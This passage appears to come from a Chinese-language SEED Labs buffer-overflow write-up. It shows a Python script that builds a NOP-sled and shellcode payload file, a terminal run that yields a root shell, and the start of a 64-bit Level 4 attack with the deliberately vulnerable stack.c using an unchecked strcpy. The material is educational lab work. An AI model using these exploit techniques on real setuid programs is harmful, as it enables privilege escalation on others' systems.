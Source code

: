 ```python{.line-numbers}

content = bytearray(0x90 for i in range(517))

content[517 - len(shellcode):] = shellcode

ret = 0xffffc930 + 420
for i in range(55):
	content[i*4:i*4+4] = (ret).to_bytes(4, byteorder='little')

file = open("badfile", "wb")
file.write(content)
file.close()
```

运行结果如下所示，攻击成功，这里最关键的就是 X 的值选取，可能要进行反复尝试（倾向于选择大一点的数字），才能最后成功。

```c{.line-numbers}
monica@xvm:~/csapp/seed-labs/category-software/Buffer_Overflow_Setuid/Labsetup/code$ ./stack-L2
Input size: 517
# 
```

## 四、对 64 位程序进行攻击——Level 4

在 Level 4 的攻击任务中，同样需要对 64 位程序进行攻击，同样需要解决 64 位返回地址中可能存在的 '\0' 字节的问题。之前解决这个问题，**<font color="red">而解决方法就是将 shellcode 往前移动到 buffer 起始地址和 %rbp 之间的位置</font>**。但是现在 buffer 的大小为 10，无法容纳 shellcode，因此无法再使用这种方式。但是考虑到 main 函数栈帧中 str 数组内也存在 shellcode，因此，只需要将 bof 函数栈帧中的 RT 设置为 str 中 shellcode 的地址即可。

首先将 stack.c 的代码修改如下：

```c{.line-numbers}
#include <stdlib.h>
#include <stdio.h>
#include <string.h>

/* Changing this size will change the layout of the stack.
 * Instructors can change this value each year, so students
 * won't be able to use the solutions from the past.
 */
#ifndef BUF_SIZE
#define BUF_SIZE 100
#endif

void dummy_function(char *str);

int bof(char *str)
{
    char buffer[BUF_SIZE];
    unsigned long rbp_value;
    __asm__ volatile ("movq %%rbp, %0" : "=r" (rbp_value));
    printf("buffer:%p  rbp:0x%lx\n", buffer, rbp_value);
    // The following statement has a buffer overflow problem 
    strcpy(buffer, str);       

    return 1;
}

int main(int argc, char **argv)
{
    char str[517];
    printf("str:%p\n", str);
    FILE *badfile;

    badfile = fopen("badfile", "r"); 
    if (!badfile) {
```